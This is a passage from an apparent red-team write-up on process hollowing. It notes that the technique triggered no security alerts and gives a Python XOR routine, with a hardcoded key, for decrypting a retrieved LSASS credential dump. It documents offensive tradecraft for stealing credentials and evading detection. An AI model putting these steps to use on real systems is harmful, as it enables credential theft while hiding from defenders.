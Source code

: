 
![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/NtProccesHollow/Images/Pasted%20image%2020230913171829.png)

Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/NtProccesHollow/Images/Pasted%20image%2020230823180840.png)

Finally, retrieve and decrypt the LSASS dump using a standard XOR decrypting python routine such as below.

```
import sys
from itertools import cycle

key = bytearray("ripLs4SS123","utf8")
filename = "DECRYPTED.DMP"

try:
    data = bytearray(open(sys.argv[1], "rb").read())
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

if len(sys.argv) > 2 and sys.argv[2] == "1":
    print("len: {}".format(len(data)))
    print('{ 0x' + ', 0x'.join(hex(x)[2:] for x in data) + ' };')
    sys.exit()
xord_byte_array = bytearray(len(data))
if len(sys.argv) > 2 and sys.argv[2] != "1":
    filename = sys.argv[2]

f = open(filename, "wb")

l = len(key)
for i in range(len(data)):
    current = data[i]
    current_key = key[i % len(key)]
    xord_byte_array[i] = current ^ current_key

f.write(xord_byte_array)
f.close()

print("XORed output saved to \"{}\"".format(filename))
print("Xor Key: {}".format(key.decode()))
```